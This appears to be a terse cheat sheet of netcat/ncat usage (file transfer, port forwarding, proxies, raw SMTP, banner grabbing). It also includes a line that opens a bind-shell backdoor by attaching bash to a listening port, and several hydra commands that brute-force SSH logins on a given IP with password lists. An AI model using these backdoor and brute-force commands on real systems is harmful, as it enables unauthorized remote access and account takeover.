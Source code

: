 $ ncat -l  8080 > file.txt #Start with machine on which data is to be received & start nc is listener mode
$ ncat 192.168.1.100 8080 --send-only < data.txt #on the machine from where data is to be copied, –send-only option will close the connection once the file has been copied

$ ncat -l 10000 -e /bin/bash #create a backdoor,‘e‘ flag attaches a bash to port 10000
$ ncat 192.168.1.100 1000 #a client can connect to port 10000 on server

$ nc -p 31337 -w 5 host.example.com 42 #Open a TCP connection to port 42 of host.example.com, using port 31337 as the source port, with a timeout of 5 seconds
$ nc -s 10.1.2.3 host.example.com 42 #Open a TCP connection to port 42 of host.example.com using 10.1.2.3 as the IP for the local end of the connection
$ nc -lU /var/tmp/dsocket #Create and listen on a Unix Domain Socket
$ nc -x10.2.3.4:8080 -Xconnect host.example.com 42 #Connect to port 42 of host.example.com via an HTTP proxy at 10.2.3.4, port 8080

   
$ ncat -u -l  80 -c  'ncat -u -l 8080' #all the connections for port 80 will be forwarded to port 8080
$ ncat -w 10 192.168.1.100 8080 #Listener mode in ncat will continue to run,configure timeouts with option ‘w’
$ ncat -l -k 8080 #When client disconnects from server, after sometime server also stops listening.force server to stay connected & continuing port listening with option ‘k’.
----------------------------------------------------------------------------------------------------
#when the user knows the format of requests required by the server.
#an email may be submitted to an SMTP server

$ nc localhost 25 << EOF
HELO host.example.com
MAIL FROM: <user@host.example.com>
RCPT TO: <user2@host.example.com>
DATA
Body of email.
.
QUIT
EOF
----------------------------------------------------------------------------------------------------
# it is necessary to first make a connection, and then break the connection when the banner has been retrieved. 
#This can be accomplished by specifying a small timeout with the -w flag
#or by issuing a "QUIT" command to the server

$ echo "QUIT" | nc host.example.com 20-30
SSH-1.99-OpenSSH_3.6.1p2
Protocol mismatch.
220 host.example.com IMS SMTP Receiver Version 0.84 Ready
----------------------------------------------------------------------------------------------------
#parallelized login cracker which supports numerous protocols to attack
hydra -L unix_users.txt -P unix_passwords.txt ssh://192.169.42.33
hydra -l user -P unix_passwords.txt ssh://192.169.42.33
hydra -l root -P root_userpass.txt ssh://192.169.42.33
hydra -L ../.. /User.txt -P ../../../Pass.txt 192.169.42.33 ssh
